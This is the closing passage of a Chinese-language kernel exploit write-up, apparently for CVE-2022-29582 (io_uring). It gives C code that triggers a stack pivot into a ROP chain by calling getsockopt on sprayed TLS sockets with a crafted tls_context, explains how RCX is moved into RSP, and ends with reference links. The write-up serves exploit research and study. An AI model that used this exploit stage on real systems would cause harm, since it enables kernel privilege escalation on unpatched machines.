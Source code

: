谜题的最后一部分是触发栈迁移，我们知道在一个幸运的套接字上调用具有幸运的`tls_context`的`getsockopt()`将运行栈迁移代码，

```plain
err_t run_machine(struct manager *mgr)
{
    char *spray = mgr->spray;
    uint64_t tls_context = *(uint64_t*)&spray[SK_PROTO_OFF];
    uint64_t pivot_stack = tls_context + 0x20;

    /* Transfer control inside child task */
    if (!fork()) {
        /* Hopefully run along the ROP chain */
        puts("[+] Calling getsockopt() to trigger execution.");
        getsockopt_all_tls(0x41414141, 0x42424242,
                           pivot_stack, 0x8181818181818181);
    }
    /* Busyloop to prevent exit. */
    for (;;);
    __builtin_unreachable();
}

err_t getsockopt_all_tls(int level, int name, void *value, void* len)
{
    for (int i = 0; i < N_TLS_FDS; ++i) {
        IF_ERR(tls_fds[i]) {
            perror("getsockopt_all_tls:fd=-1");
            return ERR;
        }
        getsockopt(tls_fds[i], level, name, value, len);
    }
    return SUCC;
}
```

根据目标机器上的调用约定，我们可以通过`getsockopt()`函数的**value**参数来控制**RCX**寄存器的所有字节，我们的堆栈转移工具（即取代目标函数`getsockopt()`的代码），会将RCX中的值（即`tls_context + 0x20`）移动到**RSP**中（以此使用假的堆栈），然后返回地址，ROP链位于**tls\_context + 0x20**处，开始执行，

# 参考链接

[CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/)  
[【Exploit trick】利用poll\_list对象构造kmalloc-32任意释放 (corCTF 2022-CoRJail)](https://blog.csdn.net/panhewu9919/article/details/127804902?spm=1001.2014.3001.5501)(我rop链参考的这个,应该可以更简单些,懒得搞了)  
[\[linux kernel\]slub内存管理分析(7) MEMCG的影响与绕过](https://blog.csdn.net/Breeze_CAT/article/details/130015930?spm=1001.2014.3001.5501)
